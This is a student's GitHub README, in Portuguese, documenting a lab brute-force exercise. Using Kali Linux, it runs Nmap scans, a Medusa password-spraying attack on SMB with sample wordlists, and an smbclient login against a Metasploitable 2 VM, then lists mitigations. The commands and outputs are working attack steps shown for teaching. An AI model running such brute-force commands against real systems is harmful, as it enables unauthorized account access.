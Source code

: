 # 🛡️ Projeto: Simulação de Ataque de Força Bruta com Medusa e Kali Linux

## 🎯 Objetivo
Este projeto tem como objetivo demonstrar, em ambiente controlado, a execução de um ataque de força bruta utilizando a ferramenta **Medusa** no **Kali Linux**, direcionado a serviços vulneráveis do **Metasploitable 2**, simulando um cenário real de auditoria de segurança.  
Ao final, também são apresentadas recomendações de mitigação.

---

## 🧩 Ambiente de Laboratório

| Sistema | Função | IP | Ferramentas |
|----------|--------|----|-------------|
| Kali Linux | Atacante | 192.168.15.77 | Nmap, Medusa, smbclient |
| Metasploitable 2 | Alvo | 192.168.15.87 | Serviços vulneráveis (FTP, SSH, SMB, etc.) |

**Rede:** Host-Only (VirtualBox)  
**Objetivo:** Simular ataques controlados e documentar os resultados.

---

## 🔍 Etapa 1 – Varredura de Rede com Nmap

O primeiro passo foi identificar os serviços ativos no host alvo:

```bash
sudo nmap -sS 192.168.15.87
```

Resultado principal:
```
21/tcp  open  ftp
22/tcp  open  ssh
23/tcp  open  telnet
25/tcp  open  smtp
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

📸 **Print:** `/images/nmap_scan.png`

---

## 🔎 Etapa 2 – Detecção Detalhada de Serviços

Para obter mais detalhes sobre as versões dos serviços e banners, foi usado:

```bash
sudo nmap -p21-400 -A 192.168.15.87
```

O comando identificou o serviço **vsFTPd 2.3.4** (conhecido por vulnerabilidades antigas) e o **OpenSSH 4.7p1**.

📸 **Print:** `/images/nmap_detalhado.png`

---

## 💣 Etapa 3 – Ataque de Força Bruta SMB (Password Spraying)

Com base nos serviços expostos, foi escolhido o **SMB (porta 445)** para o ataque.  
Foram criados dois arquivos simples:

**Arquivo `smb_users.txt`:**
```
msfadmin
service
user
```

**Arquivo `senhas_spray.txt`:**
```
password
123456
Welcome123
msfadmin
```

Execução do ataque:

```bash
medusa -h 192.168.15.87 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

✅ Resultado:
```
ACCOUNT FOUND: [smbnt] Host: 192.168.15.87 User: msfadmin Password: msfadmin [SUCCESS]
```

📸 **Print:** `/images/medusa_smb_success.png`

---

## 📂 Etapa 4 – Validação do Acesso SMB

Após encontrar as credenciais válidas, foi feita a conexão ao compartilhamento SMB:

```bash
smbclient -L //192.168.15.87 -U msfadmin
```

Resultado:
```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
tmp             Disk      oh noes!
opt             Disk
ADMIN$          IPC       IPC Service (metasploitable server)
msfadmin        Disk      Home Directories
```

📸 **Print:** `/images/smbclient_list.png`

---

## 🧠 Conclusão

O teste simulou com sucesso um ataque de força bruta em ambiente controlado, permitindo a obtenção de credenciais válidas.  
Essa demonstração mostra como senhas fracas e repetidas são facilmente exploráveis.

---

## 🛡️ Recomendações de Mitigação

- Aplicar **políticas de senha forte** (mínimo de 10 caracteres, complexidade e expiração).  
- Implementar **bloqueio de conta** após várias tentativas falhas.  
- Monitorar logs de autenticação e configurar alertas de **intrusão**.  
- Desabilitar serviços desnecessários (como Telnet ou FTP).  
- Utilizar **autenticação multifator (MFA)** sempre que possível.

---

## 📚 Ferramentas Utilizadas

- **Kali Linux 2025.2**
- **Medusa v2.3**
- **Nmap 7.95**
- **Metasploitable 2**
- **smbclient**

---

## 🖼️ Estrutura do Repositório

```
📂 kali-medusa-bruteforce
├── README.md
├── smb_users.txt
├── senhas_spray.txt
└── /images
    ├── nmap_scan.png
    ├── nmap_detalhado.png
    ├── medusa_smb_success.png
    └── smbclient_list.png
```

---

## 👨‍💻 Autor

**Vitor Lopes Fernandes de Souza**  
Estudante de TADS e entusiasta em Cibersegurança  
🔗 [GitHub Profile](https://github.com/)
